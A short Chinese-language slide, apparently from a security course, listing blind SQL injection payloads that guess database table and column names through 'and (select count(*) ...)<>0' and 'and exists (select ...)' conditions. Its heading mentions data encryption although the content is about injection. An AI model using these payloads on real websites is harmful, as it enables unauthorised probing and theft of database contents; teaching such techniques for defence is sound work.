

8.1.7 数据加密
注入方法

方法1
先猜表名
and (Select count(*) from 表名)<>0
猜列名
and (Select count（列名） from 表名）<>0
或者也可以这样
and exists (select * from 表名）
and exists (select 列名 from 表名）
返回正确的，那么写的表名或列名就是正确